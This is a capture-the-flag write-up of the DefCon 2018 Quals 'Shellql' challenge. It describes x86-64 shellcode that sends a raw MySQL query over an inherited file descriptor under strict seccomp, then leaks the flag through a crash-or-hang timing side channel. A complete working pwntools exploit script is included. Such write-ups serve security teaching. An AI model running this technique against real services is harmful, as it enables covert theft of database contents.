

# Shellql

I came across this challenge while playing DefCon2018 Quals with mHackeroni team.  
Me, wert310 and mortic solved this challenge together in quite a weird way....  Anyway, we enjoyed it a lot :P  
That's a quick write-up we made for the organizers.  



(And that's the image that tormented us... maybe there was an easier way)

## Challenge

The challenge, reachable at http://b9d6d408.quals2018.oooverflow.io/,
provides a link and a `shellme.so` file.
The website accepts a shellcode as `POST` input and passes it to the `shellme` function
defined in the dynamic library.

### Problems
As soon as we tackled the challenge, we realized we were not able to make any request succeed, all
of them would return a 500 error.
To complicate things even further, the `prclt(22,1)` call in the library was setting seccomp in
strict mode before executing the shellcode, so we could only do
`read()`, `write()` and `exit()` calls.

We decided not to waste any time understanding the error and went for an infinite loop to
test whether our shellcode was executing correctly or not.

### Idea
Our only shot to get the flag was to interact with the mysql server, but we didn't want to
build any c++/php object.
Through reproducing the challenge in a local environment, under `strace`, we
noticed that a file descriptor (fd 4) was opened after the connection to the
database, so we could write raw mysql commands (using the mysql protocol) to this fd.

### Exploit
We decided to ask (`write()`) for `select * from flag` to the mysql fd, and then to
write (`read()`) the result of the query into the stack.

After that, we wanted to search for the `flag` word in memory (that would have been the name
of the table written in the response) and then for `OOO{` and `}` in order to be sure we
got the right fd.

To exfiltrate data from the stack we implemented a timing attack. Our initial goal was to
implement a binary search: we would hang the process in an infinite loop in case we `cmp`ared
the character in the stack with a smaller/equal char or we would let the process crash.

At the end we were just too lazy to do so: we knew we were missing 66 Bytes of flag
beetween `{` and `}` and we even knew the offset, so we wrote a script to brute'em all \0/.

Here's our script:
```python
from pwn import *
import requests
import time
import sys

URL = 'http://b9d6d408.quals2018.oooverflow.io/cgi-bin/index.php'

def make_query():
    q = "\24\0\0\0\3select * from flag;"
    blocks = [q[i:i+8] for i in range(0, len(q), 8)]
    unp = []
    for b in blocks:
        unp.append(hex(u64(b)))
    return unp

shellcode ="""
mov rbp,rdi

xor rdi, rdi
add rdi, 0x4

mov rax, 0x3b67616c66206d6f
push rax

mov rax,0x7266202a20746365
push rax

mov rax, 0xdeadbeefcafebabe
mov rdx, 0xb2c8cdeccafebaaa
xor rax, rdx
push rax

mov rsi, rsp

xor rdx,rdx
add rdx, 24
xor rdi, rdi
add rdi, 0x4
xor rax, rax
inc rax
syscall

xor rax,rax
mov rsi, rsp
add rdx, 77777777

syscall
"""

def test_fn(index, char):
    payload = shellcode +     """
    xor rax,rax
    mov al, {}

    add rsp, rax
    movzx rax, byte ptr [rsp - 1]
    mov dl, {}

    cmp dl, al
    je LOOP
    jmp SEGV
    LOOP: jmp LOOP
    SEGV: pop rax
    """.format(index, char)
    payload = asm(payload, arch="x86_64")
    if any(ord(ch) == 0 for ch in payload): print "AIUTO"

    start_t = time.time()
    try:
        requests.post(URL, timeout=3, data={'shell': payload})
    except requests.exceptions.ReadTimeout :
        pass
    except requests.exceptions.ConnectionError :
        pass

    end_t = time.time()
    print >> sys.stderr, str(end_t - start_t)
    if end_t - start_t > 1.3:
        return True
    return False

def get_char(idx):
    for i in "O{abcdefghijklmnopqrstuvwxyz_, 0123456789!\'}":
        if test_fn(idx, ord(i)):
            print >> sys.stderr, i
            return i
    return "X"

def multiprocess_get_flag(beg, end, n_processes):
    from multiprocessing import Pool
    pool = Pool(processes=n_processes)
    return ''.join(pool.imap(get_char, range(beg, end)))

def get_flag(beg,end):
    flag = ""
    for j in range(beg, end):
        flag += get_char(j)
        print flag
    return flag

if __name__ == "__main__":
    #print get_flag(70, 140)
    print multiprocess_get_flag(69, 140, 4)
```

This method was not 100% reliable but running it a couple of times gave us the correct flag.

At the end the flag was:
`OOO{shellcode and webshell is old news, get with the times my friend!}`
